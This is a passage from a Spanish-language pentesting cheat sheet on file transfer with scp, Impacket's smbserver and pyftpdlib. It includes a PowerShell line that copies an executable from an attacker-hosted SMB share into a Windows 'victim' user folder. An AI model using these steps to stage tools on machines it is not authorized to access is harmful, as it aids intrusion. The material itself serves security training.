 **Enviar archivo a una máquina remota:**

```bash
scp archivo.txt usuario@IP:/ruta/destino/
```

**Recibir archivo de una máquina remota:**

```bash
scp usuario@IP:/ruta/archivo.txt .
```

---

#### 4. 📂 SMB (smbserver.py de Impacket)

Ideal para compartir archivos a víctimas Windows.

##### 📦 Instalación:

```bash
pip install impacket
```

##### ▶️ Uso:

**En tu máquina (compartir carpeta):**

```bash
impacket-smbserver share /ruta/del/archivo -smb2support
```

**Desde Windows (cliente):**

```powershell
copy \\IP\share\archivo.exe C:\Users\victim\
```

---

#### 5. 🌍 FTP (con PyFTPdLib o vsftpd)

Rápido si necesitas subir/bajar archivos grandes o múltiples archivos.

##### 📦 Instalación (en Kali o Linux):

```bash
pip install pyftpdlib
```

##### ▶️ Uso:

**Servidor FTP:**

```bash
python3 -m pyftpdlib -p 21
```

**Cliente FTP:**

```bash
ftp IP
# Luego usa: get archivo.txt
```

---